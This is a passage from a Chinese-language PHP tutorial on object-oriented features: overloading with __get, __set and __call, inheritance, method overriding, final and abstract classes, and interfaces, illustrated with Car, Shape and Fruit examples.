在此示例中，Car 类不包含任何实际属性，但包含一个 __get() 方法。该方法仅显示所请求属性名称的值，并返回值“blue”。脚本的其余部分创建一个新的 Car 对象，并尝试检索不存在的属性 $car->color，将结果存储在新变量 $x 中。这样做会触发 Car 对象的 __get() 方法，该方法显示所请求的属性名称（“color”）并返回字符串“blue”。然后该字符串会传回给调用代码并存储在 $x 中，如代码的最后一行所示。

同样，要捕获设置不可见属性值的尝试，请使用 __set()。您的 __set() 方法需要两个参数：属性名称和要设置的值。它不需要返回值：

```
public function __set( $propertyName, $propertyValue ) {
// (do whatever needs to be done to set the property value)
}
```

### 尝试使用 __get() 和 __set()

以下示例展示了如何使用 __get() 和 __set() 将“不存在”的属性存储在私有数组中。这实际上创建了一个具有潜在无限数量“虚拟”属性的类，这些属性安全地远离类中的任何实际属性。这种技术对于创建需要存储任意数据的类很有用。

将以下脚本另存为文档根目录下的 get_set.php 并在浏览器中运行。您应该会看到图 8-3 所示的结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Using __get() and __set()</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Using __get() and __set()</h1>

<?php

class Car {
public $manufacturer;
public $model;
public $color;
private $_extraData = array();

public function __get( $propertyName ) {
if ( array_key_exists( $propertyName, $this->_extraData ) ) {
return $this->_extraData[$propertyName];
} else {
return null;
}
}

public function __set( $propertyName, $propertyValue ) {
$this->_extraData[$propertyName] = $propertyValue;
}
}

$myCar = new Car();
$myCar->manufacturer = "Volkswagen";
$myCar->model = "Beetle";
$myCar->color = "red";
$myCar->engineSize = 1.8;
$myCar->otherColors = array( "green", "blue", "purple" );
```

```
echo "<h2>Some properties:</h2>";
echo "<p>My car's manufacturer is " . $myCar->manufacturer . ".</p>";
echo "<p>My car's engine size is " . $myCar->engineSize . ".</p>";
echo "<p>My car's fuel type is " . $myCar->fuelType . ".</p>";
echo "<h2>The \$myCar Object:</h2><pre>";
print_r( $myCar );
echo "</pre>";
?>
</body>
</html>
```



图 8-3

### 工作原理

此脚本创建了熟悉的 `Car` 类，包含一些固定的公共属性 — `$manufacturer`、`$model` 和 `$color` — 并且还添加了一个私有数组属性 `$extraData`。`Car` 类还包含一个 `__get()` 方法，该方法在 `$extraData` 数组的键中查找请求的属性名称，并返回数组中的对应值（如果找到）。相应的 `__set()` 方法获取提供的属性名称和值，并按属性名称将值存储在 `$extraData` 数组中。

为了测试这些方法，脚本随后创建一个新的 Car 对象 $myCar，并设置五个属性。前三个是 Car 类中的实际属性 — $manufacturer、$model 和 $color — 因此这些属性分别设置为 "Volkswagen"、"Beetle" 和 "red"。第四个属性 $engineSize 在类中不存在，因此会调用 __set() 方法；这会在 $extraData 中创建一个键为 "engineSize"、值为 1.8 的数组元素。

同样，第五个属性 $otherColors 也在类中不存在，因此会调用 __set()，在 $extraData 中创建一个键为 "otherColors" 的数组元素，用于存储传入的值，在此示例中为包含字符串 "green"、"blue" 和 "purple" 的数组。

接下来，脚本显示 $myCar 对象的一些属性值。请注意，对于调用代码而言，$engineSize 属性与 $manufacturer 属性一样“真实”，尽管 $engineSize 属性在 Car 类中不存在。脚本还尝试检索名为 $fuelType 的属性的值；由于该属性既不在类中，也不在 $extraData 数组中，因此 __get() 方法向调用代码返回 null。这就是页面中不显示任何值的原因。

最后，脚本使用 print_r() 转储 $myCar 对象的内容。请注意，额外的“属性” — $engineSize 和 $otherColors — 存储在私有 $extraData 数组中。（您可以看到 print_r() 还会显示对象中的私有属性，这对于调试很有用。）

尽管在此示例中不存在的属性存储在私有数组中，但它们同样可以轻松存储在文件或数据库表中，或通过 API（应用程序编程接口）传递给另一个应用程序。这能让您了解 __get() 和 __set() 的强大之处。

### 使用 __call() 重载方法调用

正如您可以使用 __get() 和 __set() 来处理不存在属性的读取和写入一样，您也可以使用 __call() 来处理对类中不存在方法的调用。只需在类中创建一个名为 __call() 的方法，它接受不存在的方法名作为字符串，以及传递给不存在方法的任何参数作为数组。然后该方法应将值（如果有）返回给调用代码：

```
public function __call( $methodName, $arguments ) {
    // (do stuff here)
    return $returnVal;
}
```

如果您想创建一个“包装器”类，该类本身不包含太多功能，而是将方法调用转交给外部函数或 API 进行处理，那么 __call() 非常有用。


## 创建包装器字符串类

以下示例展示了如何使用 `__call()` 来创建包装器类。在此示例中，该类为 PHP 的三个内置字符串函数提供了面向对象的接口。将脚本保存为文档根目录下的 clever_string.php，然后在 Web 浏览器中运行它：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Creating a Wrapper Class with __call()</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Creating a Wrapper Class with __call()</h1>

	<?php

	class CleverString {

		private $theString = "";
		private static $allowedFunctions = array( "strlen", "strtoupper",
			"strpos" );

		public function setString( $stringVal ) {
			$this->theString = $stringVal;
		}

		public function getString() {
			return $this->theString;
		}

		public function __call( $methodName, $arguments ) {
			if ( in_array( $methodName, CleverString::$allowedFunctions ) ) {
				array_unshift( $arguments, $this->theString );
				return call_user_func_array( $methodName, $arguments );
			} else {
				die ( "<p>Method 'CleverString::$methodName' doesn't exist</p>" );
			}
		}
	}

	$myString = new CleverString;
	$myString->setString( "Hello!" );
	echo "<p>The string is: " . $myString->getString() . "</p>";
	echo "<p>The length of the string is: " . $myString->strlen() . "</p>";
	echo "<p>The string in uppercase letters is: " . $myString->strtoupper() .
"</p>";
	echo "<p>The letter 'e' occurs at position: " . $myString->strpos( "e" ) .
"</p>";
	$myString->madeUpMethod();
	?>
</body>
</html>
```

运行时，脚本会生成图 8-4 所示的输出。



图 8-4

## 工作原理

CleverString 类有两个用途：它存储要操作的字符串，并提供对三个内置字符串函数的基于方法的访问，这三个函数用于操作存储的字符串：

- strlen() 用于计算字符串长度
- strtoupper() 用于将字符串转换为大写字母
- strpos() 用于查找字符串中字符首次出现的位置

如前所述，最好将类的成员尽可能封装起来，以使类健壮且易于维护。为此，存储的字符串被封装在私有属性 $theString 中；调用代码可以使用公共方法 setString() 和 getString() 来设置和读取字符串值。

`__call()` 方法是类的核心所在：

```php
public function __call( $methodName, $arguments ) {
    if ( in_array( $methodName, CleverString::$allowedFunctions ) ) {
        array_unshift( $arguments, $this->theString );
        return call_user_func_array( $methodName, $arguments );
    } else {
        die ( "<p>Method 'CleverString::$methodName' doesn't exist</p>" );
    }
}
```

首先，该方法将被调用的方法名存储在 $methodName 参数中，并将包含任何传入参数的数组存储在 $arguments 参数中。

接下来，该方法检查 $methodName 是否包含在 CleverString::$allowedFunctions 数组中。这是一个在类开始处创建的私有静态属性，包含允许的方法名：

```php
private static $allowedFunctions = array( "strlen", "strtoupper", "strpos" );
```

如果 $methodName 不是这三个值之一，则该函数会显示错误消息并终止脚本：

```php
die ( "<p>Method 'CleverString::$methodName' doesn't exist</p>" );
```

这样可以确保只有字符串函数 strlen()、strtoupper() 和 strpos() 可以通过类调用。在现实中，PHP 的大多数内置字符串函数都可以以这种方式调用，但对于这个简单示例，脚本仅允许调用这三个函数。通常出于安全原因，最好将此类参数与允许值列表进行检查。

一旦 $methodName 成功验证，该方法就会将对象的存储字符串值 $this->theString 添加到 $arguments 数组的开头：

```php
array_unshift( $arguments, $this->theString );
```

这是因为大多数内置字符串函数——包括该类能够调用的三个函数——都期望要操作的字符串作为传递给它们的第一个参数。

最后，`__call()` 方法准备好调用相应的字符串函数。它使用 PHP 函数 call_user_func_array() 来实现这一点，该函数期望函数名作为第一个参数，参数列表（作为数组）作为第二个参数。`__call()` 方法然后将字符串函数的返回值返回给调用该方法的代码：

```php
return call_user_func_array( $methodName, $arguments );
```

然后，脚本通过创建一个新的 CleverString 对象、将其字符串值设置为 "Hello!"、显示存储的字符串值以及调用各种方法来操作字符串来测试该类：

```php
$myString = new CleverString;
$myString->setString( "Hello!" );
echo "<p>The string is: " . $myString->getString() . "</p>";
echo "<p>The length of the string is: " . $myString->strlen() . "</p>";
echo "<p>The string in uppercase letters is: " . $myString->strtoupper() .
"</p>";
```

```php
echo "<p>The letter 'e' occurs at position: " . $myString->strpos( "e" ) .
    "</p>";
$myString->madeUpMethod();
```

前两个方法调用，$myString->strlen() 和 $myString->strtoupper()，没有任何参数，因为它们对应的 PHP 函数只需要一个参数——要处理的字符串——而这得益于 `__call()` 方法，该字符串会自动填充为存储的字符串。第三个方法调用，$myString->strpos( "e" )，需要一个参数——要搜索的字符串——然后将其作为第二个参数传递给 PHP 的 strpos() 函数。

下表显示了 CleverString 方法调用如何映射到实际的 PHP 字符串函数：

| 方法调用 | PHP 字符串函数调用 |
|---|---|
| $myString->strlen() | strlen( $this->theString ) |
| $myString->strtoupper() | strtoupper( $this->theString ) |
| $myString->strpos( "e" ) | strpos( $this->theString, "e" ) |

最后，脚本尝试调用一个不允许——实际上不存在——的字符串函数，这会在页面上显示错误消息：

```php
$myString->madeUpMethod();
```

这个示例表明，使用单个 `__call()` 方法将一组现有函数、方法或 API 调用包装在类中是多么容易。您可以轻松扩展此示例，以允许调用 PHP 的几十个字符串函数中的几乎所有函数，而无需编写太多额外代码。

## 其他重载方法

虽然您可能不会经常使用它们，但提及 PHP 提供的另外三个重载方法也是值得的：

`__isset()` 会在调用代码尝试对不可见属性调用 PHP 的 isset() 函数时被调用。它接受一个参数——属性名——如果该属性被视为“已设置”，则应返回 true，否则返回 false：

```php
class MyClass {
    public function __isset( $propertyName ) {
        // All properties beginning with "test" are "set"
        return ( substr( $propertyName, 0, 4 ) == "test" ) ? true : false;
    }
}
```

```php
$testObject = new MyClass;
echo isset( $testObject->banana ) . "<br />";		// Displays "" (false)
echo isset( $testObject->testBanana ) . "<br />";	// Displays "1" (true)
```

当调用代码尝试使用 PHP 的 unset() 函数删除不可见属性时，会调用 `__unset()`。它不应返回值，但应执行必要的操作来“取消设置”属性（如果适用）：

```php
class MyClass {
	public function __unset( $propertyName ) {
		echo "Unsetting property '$propertyName'<br />";
	}
}
```

```php
$testObject = new MyClass;
unset( $testObject->banana );	// Displays "Unsetting property 'banana'"
```

`__callStatic()` 的工作方式类似于 `__call()`，区别在于它会在每次尝试调用不可见静态方法时被调用。例如：

```php
class MyClass {
	public static function __callStatic( $methodName, $arguments ) {
		echo "Static method '$methodName' called with the arguments:<br />";
		foreach ( $arguments as $arg ) {
			echo "$arg<br />";
		}
	}
}
```

```php
MyClass::randomMethod( "apple", "peach", "strawberry" );
```

此代码生成以下输出：

```
Static method 'randomMethod' called with the arguments:
apple
peach
strawberry
```

## 使用继承扩展对象的功能

目前为止，您创建的所有类都是自包含的。但是，当您开始使用继承时，对象会变得非常有趣。使用此技术，您可以创建称为子类的类，这些类基于另一个类：父类。子类继承父类的所有属性和方法，并且还可以添加其他属性和方法。


继承的妙处在于，如果你想创建大量类似的类，只需在父类中一次编写它们共有的代码。这样你就无需重复编写代码。此外，任何能与父类配合使用的外部代码，只要仅操作父类中包含的属性和方法，就自动拥有与子类配合使用的能力。

假设你要编写一个程序来处理各种规则图形，例如圆形、正方形、等边三角形等等。你希望创建一个 Shape 类，用于存储边数、边长、半径和颜色等信息，并计算形状面积和周长等数值。然而，并非所有图形都相同。圆形并没有明确定义的边数，而且计算等边三角形面积的公式与正方形不同。因此，如果你想在单一的 Shape 类中处理所有类型的规则图形，该类的代码将变得相当复杂。

不过，通过使用继承，你可以将问题分解为更简单的步骤。首先，创建一个仅包含所有图形共有的属性和方法的父类 Shape。然后，你可以创建从 Shape 类继承的 Circle、Square 和 Triangle 等子类。

要创建基于父类的子类，请使用 `extends` 关键字，如下所示：

```
class Shape {
  // (General Shape properties and methods here)
}

class Circle extends Shape {
  // (Circle-specific properties and methods here)
}
```

## 试一试 创建父类和子类

以下脚本展示了继承的实际应用。它创建了一个存储所有图形共有属性和方法的父类 Shape，然后创建两个基于 Shape 的子类——Circle 和 Square——分别包含与圆形和正方形相关的属性和方法。

将脚本保存为 inheritance.php，放在文档根目录文件夹中，然后在 Web 浏览器中运行该脚本。你应该会看到图 8-5 所示的页面。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Creating Shape Classes using Inheritance</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Creating Shape Classes using Inheritance</h1>

<?php
class Shape {
private $_color = "black";
private $_filled = false;

public function getColor() {
return $this->_color;
}

public function setColor( $_color ) {
$this->_color = $_color;
}

public function isFilled() {
return $this->_filled;
}

public function fill() {
$this->_filled = true;
}

public function makeHollow() {
$this->_filled = false;
}
}

class Circle extends Shape {
private $_radius = 0;

public function getRadius() {
return $this->_radius;
}

public function setRadius( $_radius ) {
$this->_radius = $_radius;
}

public function getArea() {
return M_PI * pow( $this->_radius, 2 );
}
}

class Square extends Shape {
private $_sideLength = 0;

public function getSideLength() {
return $this->_sideLength;
}

public function setSideLength( $length ) {
$this->_sideLength = $length;
}

public function getArea() {
    return pow( $this->_sideLength, 2 );
}
}

$myCircle = new Circle;
$myCircle->setColor( "red" );
$myCircle->fill();
$myCircle->setRadius( 4 );
echo "<h2>My Circle</h2>";
echo "<p>My circle has a radius of " . $myCircle->getRadius() . ".</p>";
echo "<p>It is " . $myCircle->getColor() . " and it is " . ( $myCircle->isFilled() ? "filled" : "hollow" ) . ".</p>";
echo "<p>The area of my circle is: " . $myCircle->getArea() . ".</p>";

$mySquare = new Square;
$mySquare->setColor( "green" );
$mySquare->makeHollow();
$mySquare->setSideLength( 3 );
echo "<h2>My Square</h2>";
echo "<p>My square has a side length of " . $mySquare->getSideLength() . ".</p>";
echo "<p>It is " . $mySquare->getColor() . " and it is " . ( $mySquare->isFilled() ? "filled" : "hollow" ) . ".</p>";
echo "<p>The area of my square is: " . $mySquare->getArea() . ".</p>";

?>

</body>
</html>
```



## 图 8-5

## 工作原理

脚本首先创建父类 `Shape`。这个类仅包含所有图形共有的属性和方法。它包含用于存储形状颜色并记录形状是填充还是空心的私有属性，然后提供公共访问器方法来获取和设置颜色，以及填充形状或使其变为空心，并检索形状的填充状态。

接下来，脚本创建一个从 `Shape` 类继承的 `Circle` 类。请记住，子类会继承其父类的所有属性和方法。`Circle` 类还添加了一个私有属性来存储圆形的半径，并提供公共方法来获取和设置半径，以及使用公式 πr² 从半径计算面积。

接着，脚本创建 `Square`，另一个从 `Shape` 继承的类。这次，该类添加了一个私有属性来跟踪正方形的边长，并提供方法来获取和设置边长，以及使用公式 (边长)² 计算正方形的面积。

最后，脚本演示了 `Circle` 和 `Square` 类的用法。首先它创建一个新的 `Circle` 对象，设置其颜色，将其填充，并将半径设置为 4。然后它显示圆形的所有属性，并使用 `Circle` 类的 `getArea()` 方法计算其面积。请注意，脚本调用了一些属于父类 `Shape` 的方法，例如 `setColor()` 和 `isFilled()`，以及一些属于子类 `Circle` 的方法，例如 `setRadius()` 和 `getArea()`。

接着，脚本用 `Square` 类重复此过程，创建一个边长为 3 的空心绿色正方形，然后显示正方形的属性，并使用 `Square` 类的 `getArea()` 方法计算其面积。

## 覆盖父类中的方法

如果你想创建一个子类，其方法与父类中的对应方法不同，该怎么办？例如，你可能会创建一个名为 `Fruit` 的类，其中包含 `peel()`、`slice()` 和 `eat()` 等方法。这对大多数水果都有效；然而，例如葡萄不需要削皮或切片。因此，如果你尝试削皮或切片，你可能希望 `Grape` 对象与通用 `Fruit` 对象表现得有些不同。

PHP 像大多数面向对象语言一样，允许你通过在子类中 _覆盖_ 父类的方法来解决此类问题。为此，只需在子类中创建一个同名的方法。然后，当针对子类对象调用该方法名时，将执行子类的方法而不是父类的方法：

```
class ParentClass {
   public function someMethod() {
      // (do stuff here)
   }
}
```

```
class ChildClass extends ParentClass {
   public function someMethod() {
      // This method is called instead for ChildClass objects
   }
}
```

```
$parentObj = new ParentClass();
$parentObj->someMethod(); // Calls ParentClass::someMethod()
$childObj = new ChildClass();
$childObj->someMethod(); // Calls ChildClass::someMethod()
```

请注意，当从父类对象访问时会调用父类的方法，而使用子类对象时会调用子类的方法。

以下示例代码展示了如何使用继承将葡萄与其他水果区分开来：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Overriding Methods in the Parent Class</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Overriding Methods in the Parent Class</h1>

<?php
class Fruit {
public function peel() {
echo "<p>I'm peeling the fruit...</p>";
}

public function slice() {
echo "<p>I'm slicing the fruit...</p>";
}

public function eat() {
echo "<p>I'm eating the fruit. Yummy!</p>";
}

public function consume() {
$this->peel();
$this->slice();
$this->eat();
}
}

class Grape extends Fruit {
public function peel() {
echo "<p>No need to peel a grape!</p>";
}

public function slice() {
echo "<p>No need to slice a grape!</p>";
}
}
```


```php
echo "<h2>Consuming an apple...</h2>";
$apple = new Fruit;
$apple->consume();

echo "<h2>Consuming a grape...</h2>";
$grape = new Grape;
$grape->consume();

?>
</body>
</html>
```

你可以在图 8-6 中看到此脚本的输出。请注意，对于 Grape 对象，调用的是被覆盖的方法 peel() 和 slice()，而对于 Fruit 对象，则调用的是父类的 peel() 和 slice() 方法。



图 8-6

## 保留父类的功能

偶尔，你希望在子类中覆盖父类的方法，但同时也要使用父类方法中的某些功能。你可以通过在子类的方法中调用父类的被覆盖方法来实现这一点。要调用被覆盖的方法，请在方法名之前写上 parent::：

```
parent::someMethod();
```

沿用之前的 Fruit 和 Grape 示例，假设你想创建一个扩展 Fruit 类的 Banana 类。通常，你像吃其他水果一样吃香蕉，但你还需要先将香蕉从一串香蕉中掰下来。因此，在 Banana 类中，你可以覆盖父类的 consume() 方法以包含掰下香蕉的功能，然后在 Banana 类的 consume() 方法中调用被覆盖的 consume() 方法来完成消耗过程：

```php
class Banana extends Fruit {
    public function consume() {
        echo "<p>I'm breaking off a banana...</p>";
        parent::consume();
    }
}

$banana = new Banana;
$banana->consume();
```

此代码产生以下输出：

```
I'm breaking off a banana...
I'm peeling the fruit...
I'm slicing the fruit...
I'm eating the fruit. Yummy!
```

## 使用 final 类和方法阻止继承和覆盖

到现在你可能已经意识到，通过继承来扩展类是面向对象编程（OOP）更强大的特性之一。一般来说，允许以这种方式（由你或其他程序员）扩展你的类并没有问题。

然而，偶尔能够锁定一个类以防止其被继承是很有用的。同样，你可能想要锁定类中的一个或多个方法，以防止它们在子类中被覆盖。通过这样做，你知道你的类——或类中的方法——始终会以完全相同的方式行为。

你可以在类或方法定义之前添加关键字 final 来锁定该类或方法。例如，下面是如何创建一个 final 类：

```php
final class HandsOffThisClass {
    public $someProperty = 123;
    public function someMethod() {
        echo "A method";
    }
}

// Generates an error:
// "Class ChildClass may not inherit from final class (HandsOffThisClass)"
class ChildClass extends HandsOffThisClass {
}
```

同样，下面是如何创建一个 final 方法：

```php
class ParentClass {
    public $someProperty = 123;
    public final function handsOffThisMethod() {
        echo "A method";
    }
}

// Generates an error:
// "Cannot override final method ParentClass::handsOffThisMethod() "
```

```php
class ChildClass extends ParentClass {
    public function handsOffThisMethod() {
        echo "Trying to override the method";
    }
}
```

你可能不需要经常创建 final 类或方法；通常，允许你的类被扩展更好，因为这会使你的代码更加灵活。

## 使用抽象类和抽象方法

能够从父类创建新子类固然很好，但如果子类的功能与父类大相径庭，事情可能会失控。有时，最好能为子类的行为制定一些基本规则。抽象类和抽象方法正好允许你这样做。

为了说明类抽象，请回想一下你之前创建的 `Shape` 类示例。请记住，你创建了一个包含一些基本功能的通用 `Shape` 父类，然后用 `Circle` 和 `Square` 子类扩展了 `Shape` 类。

现在，`Circle` 和 `Square` 都包含一个 `getArea()` 方法，用于计算形状的面积，无论形状类型如何。你可以利用此事实来创建一个通用的 `ShapeInfo` 类，其中包含一个名为 `showInfo()` 的方法，用于显示给定形状的颜色和面积：

```php
class ShapeInfo {
    private $_shape;

    public function setShape($shape) {
        $this->_shape = $shape;
    }

    public function showInfo() {
        echo "<p>The shape's color is " . $this->_shape->getColor();
        echo ", and its area is " . $this->_shape->getArea() . "</p>";
    }
}
```

下面是如何使用 ShapeInfo 来显示正方形的颜色和大小：

```php
$mySquare = new Square;
$mySquare->setColor("green");
$mySquare->makeHollow();
$mySquare->setSideLength(3);
$info = new ShapeInfo();
$info->setShape($mySquare);
$info->showInfo(); // Displays "The shape's color is green, and its area is 9. "
```

你可能在想这与抽象类有什么关系。好吧，假设另一个程序员基于你的 Shape 类创建了一个名为 Rectangle 的新子类：

```php
class Rectangle extends Shape {
    private $_width = 0;
    private $_height = 0;

    public function getWidth() {
        return $this->_width;
    }

    public function getHeight() {
        return $this->_height;
    }

    public function setWidth($width) {
        $this->_width = $width;
    }

    public function setHeight($height) {
        $this->_height = $height;
    }
}
```

注意缺少了什么吗？如果你尝试将 Rectangle 对象与 ShapeInfo 类的 showInfo() 方法一起使用，会发生什么？

```php
$myRect = new Rectangle;
$myRect->setColor("yellow");
$myRect->fill();
$myRect->setWidth(4);
$myRect->setHeight(5);
$info = new ShapeInfo();
$info->setShape($myRect);
$info->showInfo();
```

答案是你会得到以下错误：

```
Call to undefined method Rectangle::getArea()
```

我们这位勇敢的程序员忘记在他的 Rectangle 类中创建 getArea() 方法。或者他可能没有意识到自己应该这样做。毕竟，他怎么知道 Rectangle 对象需要与你的 ShapeInfo 类一起使用呢？

这时就需要用到抽象类和抽象方法了。通过将父类设为抽象类，你规定了子类必须包含哪些方法。当你在父类中声明一个抽象方法时，你并不会在方法中实际插入任何代码；相反，这留给子类去实现。你指定子类必须做什么，而不是如何去做。

要声明一个抽象方法，只需使用 abstract 关键字，如下所示：

```
abstract public function myMethod($param1, $param2);
```

如你所见，你也可以可选地指定方法必须包含的任何参数。但是，你不会包含实现方法的任何代码，也不会指定方法必须返回什么类型的值。

如果你将类的一个或多个方法声明为抽象方法，则还必须将整个类声明为抽象类：

```php
abstract class MyClass {
    abstract public function myMethod($param1, $param2);
}
```

你不能直接实例化抽象类——也就是说，不能直接从中创建对象：

```
// Generates an error: "Cannot instantiate abstract class MyClass"
$myObj = new MyClass;
```

因此，当你创建一个抽象类时，你本质上是在创建一个模板，而不是一个完整的类。你在说，任何子类都必须实现抽象类中的任何抽象方法（除非这些子类本身也被声明为抽象类）。

顺便说一句，你可以在抽象类中混合抽象方法和非抽象方法。因此，你的抽象类可以定义所有可能子类共有的行为，同时将其余方法留为抽象方法，由子类实现。

*抽象类的对立面——即实现其父抽象类所有方法的类——称为具体类。*

现在回到 Shape 示例。通过将 Shape 类创建为抽象类，你可以添加抽象 getArea() 方法的声明，确保 Shape 的所有子类都必须实现 getArea()：

```php
abstract class Shape {
    private $_color = "black";
    private $_filled = false;

    public function getColor() {
        return $this->_color;
    }
}
```


public function setColor( $color ) {
$this->_color = $color;
}

public function isFilled() {
return $this->_filled;
}

public function fill() {
$this->_filled = true;
}

public function makeHollow() {
$this->_filled = false;
}

abstract public function getArea();
}

现在可以将 ShapeInfo 类与任何从 Shape 类派生的类一起使用，放心地知道子类实现了 getArea() 方法。

因此，当程序员尝试添加不包含 getArea() 方法的 Rectangle 类时，会生成一个错误：

```
Class Rectangle contains 1 abstract method and must therefore be declared abstract or implement the remaining methods (Shape::getArea)
```

这应该足以提醒程序员将所需的 getArea() 方法添加到类中：

```
class Rectangle extends Shape {
private $_width = 0;
private $_height = 0;

public function getWidth() {
return $this->_width;
}

public function getHeight() {
return $this->_height;
}

public function setWidth( $width ) {
$this->_width = $width;
}

public function setHeight( $height ) {
$this->_height = $height;
}
```

## 第二部分：学习语言

```php
public function getArea() {
    return $this->_width * $this->_height;
}
```

现在 ShapeInfo::showInfo() 方法可以正确地与 Rectangle 对象一起使用了：

```php
$myRect = new Rectangle;
$myRect->setColor( "yellow" );
$myRect->fill();
$myRect->setWidth( 4 );
$myRect->setHeight( 5 );
$info = new ShapeInfo();
$info->setShape( $myRect );
$info->showInfo(); // Displays "The shape's color is yellow, and its area is 20."
```

## 使用接口

在上一节中，你学习了如何使用抽象类来强制给定类的所有子类实现一组一致的方法。接口的工作方式类似，因为它们声明了类必须实现的一组一致的方法。然而，抽象类与扩展它的类之间存在父子关系，而接口不存在这种关系。相反，类实现接口。（同时，类还可以扩展父类。）

由于接口位于继承层次结构之外，你可以创建血统完全不同但仍可实现相同接口的类。举个实际的例子，电视机和网球是截然不同的对象，每种对象都会具有非常不同的属性和行为。然而，一家在线零售商可能同时销售电视机和网球。通过创建 Sellable 接口，并让 Television 和 TennisBall 类都实现该接口，你可以确保两个类都包含 sellItem()、deliverItem() 和 getStockLevel() 等方法，从而允许在在线商店中销售 Television 和 TennisBall 对象。

此外，一个类可以同时实现多个接口（前提是接口中声明的方法名称不冲突），这使你能够构建非常强大、可适应的类，这些类可以在许多场景中使用。

创建接口与创建类非常相似，只是使用关键字 interface 而不是 class。然后你指定实现类必须包含的一组方法列表：

```php
interface MyInterface {
    public function myMethod1( $param1, $param2 );
    public function myMethod2( $param1, $param2 );
}
```

接口不能包含属性；它们只能包含方法声明（这些声明不能包含任何实现代码）。此外，接口中的所有方法都必须是 public（否则它就不算是接口了！）。

然后你可以使用 `implements` 关键字让类实现接口：

```php
class MyClass implements MyInterface {
public function myMethod1( $param1, $param2 ) {
// (implement the method here)
}

public function myMethod2( $param1, $param2 ) {
// (implement the method here)
}
}
```

要同时实现多个接口，请用逗号分隔接口名称：

```php
class MyClass implements MyInterface1, MyInterface2 {
```

## 尝试：创建和使用接口

以下示例展示了如何创建和使用 Sellable 接口，将两个完全不相关的类——Television 和 TennisBall——转变为在线商店中的可销售商品。将脚本保存为文档根目录下的 interfaces.php，并在浏览器中打开它；你应该能看到如图 8-7 所示的结果。

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Creating and Using an Interface</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
